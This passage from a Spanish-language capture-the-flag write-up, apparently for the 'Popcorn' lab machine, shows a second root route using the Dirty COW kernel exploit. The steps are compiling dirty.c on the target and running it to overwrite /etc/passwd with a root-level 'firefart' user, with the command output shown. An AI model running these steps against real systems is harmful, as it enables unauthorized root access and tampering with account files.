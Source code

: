 Ya somos el usuario **root** y podemos visualizar la flag (root.txt).

Otra forma de escalar privilegios en mediante la explotación del kernel ya que es muy vieja:

```bash
root@popcorn:~# uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
root@popcorn:~# lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 9.10
Release:        9.10
Codename:       karmic
root@popcorn:~#
```

Para este caso utilizaremos el recurso [dirtycow](https://github.com/FireFart/dirtycow), así que primero validamos que la máquima víctima tiene `gcc`:

```bash
www-data@popcorn:/dev/shm$ which gcc
/usr/bin/gcc
www-data@popcorn:/dev/shm$
```

Vemos que si, así que nos copiamos el archivo y lo guardamos en el máquina víctima.

```bash
www-data@popcorn:/dev/shm$ nano dirty.c 
www-data@popcorn:/dev/shm$ ls -l
total 12
-rw-r--r-- 1 www-data www-data 4816 Jan 17 02:44 dirty.c
-rwxr-xr-x 1 www-data www-data 3043 Jan 17 02:30 privesc.sh
www-data@popcorn:/dev/shm$ cat dirty.c | grep gcc
//   gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/dev/shm$
```

Dentro del mismo script ya nos indica la forma de compilarlo.

```bash
www-data@popcorn:/dev/shm$ ls -l
total 28
-rwxr-xr-x 1 www-data www-data 13603 Jan 17 02:45 dirty
-rw-r--r-- 1 www-data www-data  4816 Jan 17 02:44 dirty.c
-rwxr-xr-x 1 www-data www-data  3043 Jan 17 02:30 privesc.sh
www-data@popcorn:/dev/shm$
```

Al ejecutarlo nos pedirá una contraseña, ingresamos cualquiera, esperamos un rato y despúes hacemos Ctrl + C. El programa lo que hace es modificar el archivo `/etc/passwd` agregando el usuario **firefart** con la contraseña que le indicamos.

```bash
www-data@popcorn:/dev/shm$ ./dirty  
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fic6dC9mK3e6U:0:0:pwned:/root:/bin/bash

mmap: b7737000

^C
www-data@popcorn:/dev/shm$ cat /etc/passwd
firefart:fic6dC9mK3e6U:0:0:pwned:/root:/bin/bash
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
```